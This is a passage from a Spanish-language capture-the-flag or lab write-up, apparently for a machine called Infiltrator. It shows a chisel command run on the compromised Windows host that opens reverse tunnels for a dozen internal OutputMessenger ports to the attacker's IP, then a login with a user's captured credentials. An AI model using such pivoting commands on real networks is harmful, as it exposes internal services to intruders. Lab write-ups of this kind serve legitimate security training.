 ![process](/Media/Images/Infiltrator/process.png)

Son de un programa llamado [**OutputMessenger**](https://www.outputmessenger.com/). Un programa de mensajería.

La creds de **k.turner** pueden ser para iniciar sesión a este programa. Así que, tengo que conseguir acceso por medio de un port-forwarding.

## Port-Forwarding
Lo hice con chisel.
```powershell
.\chisel_windows.exe client 10.10.14.107:8000 R:14118:127.0.0.1:14118 R:14119:127.0.0.1:14119 R:14121:127.0.0.1:14121 R:14122:127.0.0.1:14122 R:14123:127.0.0.1:14123 R:14124:127.0.0.1:14124 R:14125:127.0.0.1:14125 R:14126:127.0.0.1:14126 R:14127:127.0.0.1:14127 R:14128:127.0.0.1:14128 R:14130:127.0.0.1:14130 R:14406:127.0.0.1:14406
```
Y desde un windows (Commando-VM) me conecto utilizando la IP de mi Kali, para ello me descargo la app versión cliente de OutputMessenger.

## Enumerar OutputMessenger como k.turner
Dentro muestra información de un programa que están desarrollando **UserExplorer**. 
